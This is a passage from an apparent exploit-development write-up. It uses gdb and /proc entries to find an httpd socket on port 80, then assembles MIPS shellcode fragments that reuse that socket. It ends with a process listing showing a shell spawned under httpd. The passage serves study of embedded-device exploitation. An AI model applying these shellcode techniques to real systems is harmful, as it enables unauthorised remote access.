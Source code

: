 ```
l-wx------ 1 root root 64 Jan 21 09:21 12 -> /tl-rootfs/tmp/pipe_mud80
lrwx------ 1 root root 64 Jan 21 09:21 13 -> socket:[3150]
lrwx------ 1 root root 64 Jan 21 09:21 14 -> socket:[18959]
   ...
```

The number between square brackets is the **inode** value that
we can use via another entry in ``/proc`` to find more information

```
(gdb) shell cat /proc/net/tcp
  sl  local_address rem_address   st tx_queue rx_queue tr tm->when retrnsmt   uid  timeout inode         
   ...
   5: 0A00020F:0050 0A000202:8614 01 00000000:00000000 00:00000000 00000000     0        0 18959 1 86cf0d60 21 4 1 5 -1
   ...
(gdb) print/d 0x50
$5 = 80
```

It seems legit! Obviously we need to subtract also ``0x28`` from the stack pointer if we want
to use it from inside the shellcode.

```
$ asm -c mips 'lw $t6, -0x204($sp);lw $t6, 0x34($t6)' -f raw | disasm -c mips
   0:    8faefdfc         lw      t6,  -516(sp)
   4:    8dce0034         lw      t6,  52(t6)
```

lw $t6, 0x34($t6) ---> t6 = *(t6 + 0x34)

```
$ asm -c mips 'lw $t6, -0x204($sp);addi $t6, $t6, 0x101; lw $t6, -0xcd($t6)' -f raw | disasm -c mips
   0:    8faefdfc         lw      t6,  -516(sp)
   4:    21ce0101         addi    t6,  t6,  257
   8:    8dceff33         lw      t6,  -205(t6)
```

and at the end

```
 1599 ttyS0    Ss     0:00 /bin/login --
 1600 ttyS0    S      0:01  \_ -bash
 1615 ttyS0    S+     0:00      \_ bin/sh
26457 ttyS0    S+     0:11          \_ httpd
26458 ttyS0    S+     0:00              \_ httpd
26459 ttyS0    S+     0:00                  \_ httpd
26506 ttyS0    S+     0:00                  \_ httpd
26514 ttyS0    S+     0:00                  \_ httpd
26515 ttyS0    S+     0:00                  \_ httpd
30218 ttyS0    S+     0:00                  \_ httpd
30220 ttyS0    S+     0:00                  \_ httpd
30221 ttyS0    S+     0:00                  \_ httpd
30222 ttyS0    S+     0:00                  \_ httpd
18369 ttyS0    S+     0:00                  \_ httpd
18374 ttyS0    S+     0:00                  \_ httpd
18375 ttyS0    S+     0:35                  \_ httpd
18376 ttyS0    S+     0:57                  \_ httpd
18379 ttyS0    S+     0:00                  \_ httpd
18380 ttyS0    S+     0:00                  \_ httpd
18382 ttyS0    S+     0:03                  \_ httpd
18384 ttyS0    S+     0:00                  \_ sh
```
